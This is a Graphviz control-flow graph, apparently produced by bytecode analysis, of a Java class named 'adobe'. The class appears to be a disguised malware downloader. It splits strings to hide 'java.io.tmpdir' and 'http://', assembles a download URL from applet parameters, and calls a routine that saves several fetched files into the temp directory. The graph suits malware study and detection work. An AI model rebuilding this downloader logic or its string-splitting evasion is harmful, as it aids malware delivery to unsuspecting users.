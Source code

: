 digraph "" {
    "r0 := @this: adobe"
    "load.r r0"
    "r0 := @this: adobe"->"load.r r0";
    "virtualinvoke <adobe: void sectonull()>"
    "load.r r0"->"virtualinvoke <adobe: void sectonull()>";
    "new java.lang.StringBuilder"
    "virtualinvoke <adobe: void sectonull()>"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"ja\""
    "dup1.r"->"push \"ja\"";
    "push \"va\""
    "push \"ja\""->"push \"va\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"va\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"tmp\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"tmp\"";
    "push \"dir\""
    "push \"tmp\""->"push \"dir\"";
    "push \"dir\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r2";
    "new java.util.Random"
    "store.r r2"->"new java.util.Random";
    "new java.util.Random"->"dup1.r";
    "specialinvoke <java.util.Random: void <init>()>"
    "dup1.r"->"specialinvoke <java.util.Random: void <init>()>";
    "push \"htt\""
    "specialinvoke <java.util.Random: void <init>()>"->"push \"htt\"";
    "push \"p://\""
    "push \"htt\""->"push \"p://\"";
    "push \"p://\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r5"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r5";
    "store.r r5"->"new java.lang.StringBuilder";
    "store.r r6"
    "new java.lang.StringBuilder"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push \"/tem\""
    "load.r r6"->"push \"/tem\"";
    "push \"p/new\""
    "push \"/tem\""->"push \"p/new\"";
    "push \"p/new\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"year/\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"year/\"";
    "push \"year/\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "virtualinvoke <java.util.Random: int nextInt()>"
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"virtualinvoke <java.util.Random: int nextInt()>";
    "store.i r7"
    "virtualinvoke <java.util.Random: int nextInt()>"->"store.i r7";
    "store.i r7"->"load.r r6";
    "load.i r7"
    "load.r r6"->"load.i r7";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "load.i r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "push \"/\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"push \"/\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"/\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "push \"?who\""
    "store.r r6"->"push \"?who\"";
    "push \"le=\""
    "push \"?who\""->"push \"le=\"";
    "push \"le=\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r7"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r7";
    "new java.lang.String"
    "store.r r7"->"new java.lang.String";
    "specialinvoke <java.lang.String: void <init>()>"
    "new java.lang.String"->"specialinvoke <java.lang.String: void <init>()>";
    "specialinvoke <java.lang.String: void <init>()>"->"new java.lang.String";
    "new java.lang.String"->"specialinvoke <java.lang.String: void <init>()>";
    "specialinvoke <java.lang.String: void <init>()>"->"load.r r0";
    "push \"ht\""
    "load.r r0"->"push \"ht\"";
    "push \"tp\""
    "push \"ht\""->"push \"tp\"";
    "push \"tp\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>";
    "store.r r51"
    "virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>"->"store.r r51";
    "store.r r51"->"load.r r0";
    "push \"ftp\""
    "load.r r0"->"push \"ftp\"";
    "push \"ftp\""->"virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>";
    "store.r r52"
    "virtualinvoke <adobe: java.lang.String getParameter(java.lang.String)>"->"store.r r52";
    "store.r r52"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \".\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"io\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"io\"";
    "push \"io\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r2";
    "store.r r2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "load.r r5"
    "dup1.r"->"load.r r5";
    "load.r r5"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "load.r r51"
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r51";
    "load.r r51"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r7"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r52"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "store.r r5"->"load.r r0";
    "load.r r0"->"load.r r5";
    "load.r r5"->"load.r r2";
    "push \"a\""
    "load.r r2"->"push \"a\"";
    "specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"a\""->"specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>";
    "specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"load.r r5";
    "load.r r5"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"02\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"02\"";
    "push \"02\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r2";
    "push \"b\""
    "load.r r2"->"push \"b\"";
    "push \"b\""->"specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>";
    "specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"load.r r5";
    "load.r r5"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"03\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"03\"";
    "push \"03\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r2";
    "push \"c\""
    "load.r r2"->"push \"c\"";
    "push \"c\""->"specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>";
    "goto return"
    "specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "specialinvoke <adobe: void d(java.lang.String,java.lang.String,java.lang.String)>"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
}

